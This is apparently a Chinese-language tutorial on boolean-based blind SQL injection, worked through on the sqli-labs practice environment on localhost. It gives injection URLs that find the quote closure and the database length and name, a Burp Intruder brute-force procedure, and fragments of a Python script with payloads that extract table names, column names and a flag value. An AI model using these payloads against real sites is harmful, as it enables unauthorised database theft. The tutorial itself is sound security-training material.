


布尔盲注
# SQL 注入之布尔盲注
本篇使用布尔盲注。
注意 ：盲注是注入的一种，指的是在不知道数据库返回值的情况下对数据中的内容进行猜测，实施 SQL 注入。
布尔盲注
原理：
注入的时候只会返回 True和False ，所以布尔盲注就是根据页面显示的是 True还是False 进行猜测数据库中的信息。
布尔盲注需要几个函数的辅助，就先来了解一下这几个函数
length()函数可返回字符串的长度 |
具体的用法可以参考大佬的博客 Mysql 语法介绍，接下来就通过 sql-labs 练习布尔盲注。
判断注入点（也就是闭合符号）
http://127.0.0.1/sqli/Less-8/?id=1' |
发现输入 id=1' 没有错误回显
在 id=1' 后再加上注释符号后又回显正确，所以判定闭合符号为 '
http://127.0.0.1/sqli/Less-8/?id=1' %23 |
爆数据库长度
由于我们知道 select uname = 'id' and 1 from xxxx 在 id 有效的情况下，加入 and 1 不会影响整体判断
那么，这里的 1 可以被任何的查询正确的 布尔型判断语句 返回结果所替代，比如 length(database()) =x 就可以来代替 1 这个值。
只有当 x 等于正确的数据库长度时，才能使 and 1 成立 ，才能使整个查询语句回显正确的内容
http://127.0.0.1/sqli/Less-8/?id=1' and length(database())=1 --+ |
手工注入的话就要一遍一遍的试试，将后面的长度不断增大，最后得出数据库名的长度为 8
爆数据库名
知道了数据库名的长度，接下来就来爆破数据库名
以这一句为基础
http://127.0.0.1/sqli/Less-8/?id=1'and 1 --+ |
继续深入构造爆破查询语句：
# 注入步骤
布尔盲注爆破数据库名
http://127.0.0.1/sqli/Less-8/?id=1'and ascii(substr(database(),1,1))=1 --+ |
然后交给 BurpSuit 抓包，选择 Send to Intruder
# 清空变量

# 设置爆破变量
首先我们确定好
ascii(substr(database(), 1 ,1))= 1 --+ 这一句中，我标识出来的两个位置【需要我们使用工具爆破】。
使用 Add$ 来为想要爆破的变量添加上变量符号
# 选择爆破取值范围
第一个位置， ascii (substr (database (), 1 ,1))=1

第二个位置， ascii (substr (database (),1,1))= 1
# 开始爆破
由于我们的包总长度 根据回显内容不同而发生变化 ，因此，只有当取值正确的时候包长度会跟其他错误的情况不一样，看下图有 8 个情况和其他次数有不一样的结果。

| payload1 (数据库名第 n 个字符) | payload2 (数据库名第 n 个字符是什么字符) |
|---|---|
| 1 | 115–>‘s’ |
| 2 | 101–>‘e’ |
| 3 | 99 -->‘c’ |
| 4 | 117–>‘u’ |
| 5 | 114–>‘r’ |
| 6 | 105–>‘i’ |
| 7 | 116–>‘t’ |
| 8 | 121–>‘y’ |
综上，数据库名是 security
爆破表名，同理
http://127.0.0.1/sqli/Less-8/?id=1'and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=1 --+ |
小练习：
#尝试报错 |
# 【附】爆破脚本
import requests |
# 脚本爆破数据库名
url 为：
url = "http://127.0.0.1/SQLC/sql-3.php/?id=1) and (ascii(substr(database(),%d,1))=ord('%s'))" %(j,i) |
# 脚本爆破表名
修改 url 为：
url = "http://127.0.0.1/SQLC/sql-3.php/?id=1) and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),%d,1))=ord('%s'))" %(j,i) |
爆出第一个表名 emails
修改 limit 1,1 爆出第二个表名 flag
# 脚本爆破列名
修改 url 为：
url = "http://127.0.0.1/SQLC/sql-3.php/?id=1) and (ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),%d,1))=ord('%s'))" %(j,i) |
爆出第一个列名 flag
修改 limit 1,1 爆出第二个列名 value
# 脚本爆破值
修改 url 为：
url = "http://127.0.0.1/SQLC/sql-3.php/?id=1) and (ascii(substr((select value from challenge.flag where flag='flag3'),%d,1))=ord('%s'))" %(j,i) |
爆出当 flag=flag3 时的 value 值为 gir